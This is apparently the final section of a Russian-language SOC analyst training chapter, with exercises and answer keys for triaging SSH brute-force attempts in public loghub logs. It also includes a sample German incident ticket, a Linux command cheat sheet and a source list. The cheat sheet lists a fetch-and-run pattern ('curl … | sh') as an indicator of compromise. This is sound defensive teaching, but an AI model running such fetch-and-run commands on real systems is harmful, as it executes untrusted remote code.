grep "Failed password" OpenSSH_2k.log | grep -oE "from [0-9.]+" | sort | uniq -c | sort -rn | head -3
# 286 from 183.62.140.253
# 80 from 187.141.143.180
# 46 from 103.99.0.122
Задание 2. Профиль главного атакующего
По 183.62.140.253: сколько всего строк он оставил, сколько из них Failed password, когда была первая и последняя неудача? Посчитай темп: попыток в минуту.
Ключ
grep -c "183.62.140.253" OpenSSH_2k.log # 867
grep "Failed password" OpenSSH_2k.log | grep -c "183.62.140.253" # 286
grep "Failed password.*183.62.140.253" OpenSSH_2k.log | head -1 | cut -c1-15 # Dec 10 10:54:29
grep "Failed password.*183.62.140.253" OpenSSH_2k.log | tail -1 | cut -c1-15 # Dec 10 11:04:43
286 неудач примерно за 10 минут — около 28 в минуту, машинный темп. Это обоснование «brute force» цифрами, а не на глаз. Строк 867, а не 286: на каждую попытку приходятся ещё строки PAM, Received disconnect и другие строки того же подключения.
Задание 3. Второй лог, тот же приём
Linux_2k.log — syslog другой машины, формат иной. Найди: сколько всего строк authentication failure и какой rhost встречается в них чаще всего.
Ключ
grep -c "authentication failure" Linux_2k.log # 490
grep "authentication failure" Linux_2k.log | grep -oE "rhost=[^ ]+" | sort | uniq -c | sort -rn | head -3
# 80 rhost=150.183.249.110
# 23 rhost=n219076184117.netvigator.com
# 23 rhost=207.243.167.114
Цепочка та же. Меняется только поле, которое вытаскиваешь: from IP в OpenSSH, rhost= здесь.
Задание 4. Мини-SIEM
Тот же OpenSSH_2k.log целиком, но в виде таблицы с поиском и фильтрами — как в настоящем SIEM. Задания внутри блока.
Задание 5. Очередь триажа
Три алерта по нашему серверу. По каждому — вердикт, одно предложение обоснования и приоритет.
Так выглядит смена: два алерта закрываются за минуты, один требует обогащения. Быстро отсекать A и B, не утонув в них, — это и есть работа L1.
Задание 6. Норма на своём маке
Посмотри процессы на маке и найди норму, как в главе 4:
ps -axo pid,ppid,user,comm | head -15
Найди: какой процесс у тебя PID 1 и под какими пользователями работают системные службы.
Ключ
На маке PID 1 — launchd, а не systemd: у macOS своя система запуска. Службы Apple работают под root и под служебными учётками, имена которых начинаются с _ (например _windowserver). Принцип тот же, что в Linux: служба — под своей учёткой, человек — под своей.
Задание 7. Отчёт по-немецки
Оформи алерт B как короткую запись в тикет: Was → Wann → Woher → Auswirkung → Empfehlung. Держись фактов из лога.
Образец
Was: SSH-Brute-Force-Angriff auf Host LabSZ, Ziel v. a. Benutzer root.
Wann: ca. 10:54–11:04 Serverzeit (Zeitzone unbestätigt, Syslog ohne TZ), ~286 fehlgeschlagene Anmeldungen in ~10 Minuten (~28/min, maschinelles Tempo).
Woher: Quell-IP 183.62.140.253 (Haupttäter); insgesamt 23 beteiligte IPs, 520 fehlgeschlagene Anmeldungen im Log.
Auswirkung: Kein erfolgreicher Login von dieser IP — kein bestätigter Zugriff. Der einzelne erfolgreiche Login (fztu) steht NICHT im Zusammenhang mit dem Angriff und wird separat geprüft.
Empfehlung: Quell-IPs sperren; SSH-Passwort-Login von außen deaktivieren, nur Schlüssel; direkten root-Login verbieten (PermitRootLogin no); fail2ban einrichten.
Год и часовой пояс syslog не выдумываешь, а помечаешь как неподтверждённые. «Атака была» и «доступа не было» — два разных факта, их не склеиваешь.
Отчёт можно собрать одной командой и приложить к тикету:
{ echo "== SSH triage $(date +%F) =="
echo "Failed total : $(grep -c 'Failed password' OpenSSH_2k.log)"
echo "Root targeted: $(grep -c 'Failed password for root' OpenSSH_2k.log)"
echo "Accepted : $(grep -c 'Accepted' OpenSSH_2k.log)"
echo "Top attackers:"
grep 'Failed password' OpenSSH_2k.log | grep -oE 'from [0-9.]+' | sort | uniq -c | sort -rn | head -3
} > ssh_triage_report.txt
cat ssh_triage_report.txt
Шпаргалка на один экран
| Задача | Команда |
|---|---|
| Кто я, где я | whoami, pwd, cat /etc/os-release |
| Начало / конец / листать | head, tail -f, less |
| Строки с текстом / их число | grep "текст" файл, grep -c |
| Топ значений поля | grep … | grep -oE "шаблон" | sort | uniq -c | sort -rn | head |
| Найти файлы | find /путь -name "*.log", find /tmp -mmin -60 |
| Все строки одного SSH-подключения | grep "sshd\[PID\]" auth.log |
| Права и скрытые файлы | ls -la |
| Что за файл на самом деле | file имя |
| Человек или служба | /etc/passwd: UID ≥ 1000 и bash — человек; nologin — служба |
| Процессы | ps aux --sort=-%cpu | head, top |
| Службы | systemctl status имя, systemctl list-units --type=service |
| Задания cron | crontab -l -u user, /etc/crontab, /etc/cron.d/ |
| Логи входов | /var/log/auth.log (Debian/Ubuntu), /var/log/secure (RHEL), journalctl -u ssh |
| Норма | PID 1 systemd, потоки ядра в [скобках], службы под своими учётками |
| Тревога | процесс или файл в /tmp, kworker без скобок, curl … | sh, SUID в /tmp |
Источники
- loghub (LogPAI) — наборы реальных логов OpenSSH_2k.log и Linux_2k.log; Zhu et al., ISSRE 2023 — https://github.com/logpai/loghub (проверено 10.11.2026: файлы скачаны, числа посчитаны скриптом)
- TryHackMe — Linux Fundamentals Part 1 — https://tryhackme.com/room/linuxfundamentalspart1 (проверено 23.09.2026)
- bash(1) — списки команд, перенаправления, пайпы, job control — https://man7.org/linux/man-pages/man1/bash.1.html (справочная ссылка)
- MITRE ATT&CK T1070.002 Clear Linux or Mac System Logs — https://attack.mitre.org/techniques/T1070/002/ (сверено с v20.0, 10.11.2026)
- explainshell.com — разбор команд по man-страницам — https://explainshell.com/ (справочная ссылка)
- find(1), FreeBSD — BSD-версия, как на macOS — https://man.freebsd.org/cgi/man.cgi?find(1) (справочная ссылка)
- find(1), GNU — https://man7.org/linux/man-pages/man1/find.1.html (справочная ссылка)
- TryHackMe — Linux Fundamentals Part 2 — https://tryhackme.com/room/linuxfundamentalspart2 (проверено 23.09.2026)
- MITRE ATT&CK T1098.004 SSH Authorized Keys — https://attack.mitre.org/techniques/T1098/004/ (сверено с v20.0, 10.11.2026)
- chmod(1) — https://man7.org/linux/man-pages/man1/chmod.1.html (справочная ссылка)
- passwd(5) — формат /etc/passwd — https://man7.org/linux/man-pages/man5/passwd.5.html (проверено 23.09.2026)
- TryHackMe — Linux Fundamentals Part 3 — https://tryhackme.com/room/linuxfundamentalspart3 (проверено 23.09.2026)
- Filesystem Hierarchy Standard 3.0, Linux Foundation — https://refspecs.linuxfoundation.org/FHS_3.0/fhs/index.html (проверено 23.09.2026)
- RFC 1918 — частные диапазоны адресов — https://www.rfc-editor.org/rfc/rfc1918 (справочная ссылка)
- RFC 5737 — адреса для документации (192.0.2.0/24, 198.51.100.0/24, 203.0.113.0/24) — https://www.rfc-editor.org/rfc/rfc5737 (справочная ссылка)
- Python docs — http.server: порт 8000 по умолчанию, не для продакшена — https://docs.python.org/3/library/http.server.html (проверено 23.09.2026)
- MITRE ATT&CK Enterprise v20.0 (13.10.2026): тактики Stealth TA0005 и Defense Impairment TA0112 — https://attack.mitre.org/tactics/enterprise/ (сверено по выжимке STIX, 10.11.2026)
- MITRE ATT&CK T1105 Ingress Tool Transfer — https://attack.mitre.org/techniques/T1105/ (сверено с v20.0, 10.11.2026)
- MITRE ATT&CK T1543.002 Systemd Service — https://attack.mitre.org/techniques/T1543/002/ (сверено с v20.0, 10.11.2026)
- signal(7) — SIGKILL и SIGSTOP нельзя перехватить — https://man7.org/linux/man-pages/man7/signal.7.html (проверено 23.09.2026)
- crontab(5) — поля расписания, @reboot — https://man7.org/linux/man-pages/man5/crontab.5.html (проверено 23.09.2026)
- MITRE ATT&CK T1053.003 Cron — https://attack.mitre.org/techniques/T1053/003/ (сверено с v20.0, 10.11.2026)
- apt-key(8) — объявлен устаревшим, замена: /etc/apt/keyrings и Signed-By — https://manpages.debian.org/bookworm/apt/apt-key.8.en.html (проверено 23.09.2026)
- Apache HTTP Server 2.4 — Log Files (Common/Combined Log Format) — https://httpd.apache.org/docs/2.4/logs.html (справочная ссылка)
- Debian 12 release notes, 5.1.7 Changes to system logging — rsyslog больше не ставится по умолчанию — https://www.debian.org/releases/bookworm/amd64/release-notes/ch-information.en.html (проверено 23.09.2026)
- journalctl(1) — https://man7.org/linux/man-pages/man1/journalctl.1.html (справочная ссылка)
- systemd(1) — systemd работает как PID 1 — https://man7.org/linux/man-pages/man1/systemd.1.html (справочная ссылка)
- ps(1) — без доступной командной строки имя процесса выводится в квадратных скобках — https://man7.org/linux/man-pages/man1/ps.1.html (справочная ссылка)
- OpenSSH 9.8 release notes (01.07.2024) — сервер разделён на слушающий sshd и sshd-session на каждое подключение — https://www.openssh.org/txt/release-9.8 (проверено 10.11.2026)
- MITRE ATT&CK T1036 Masquerading — https://attack.mitre.org/techniques/T1036/ (сверено с v20.0, 10.11.2026)
- MITRE ATT&CK T1110.001 Password Guessing — https://attack.mitre.org/techniques/T1110/001/ (сверено с v20.0, 10.11.2026)
- MITRE ATT&CK T1021.004 SSH — https://attack.mitre.org/techniques/T1021/004/ (сверено с v20.0, 10.11.2026)
Отзыв
Ответь в чате одной-двумя строками на каждый:
- Что зашло больше всего и что хочется видеть чаще?
- Что было лишним, скучным или слишком очевидным?
- Где пришлось перечитывать по два раза — сложная тема или неудачное объяснение?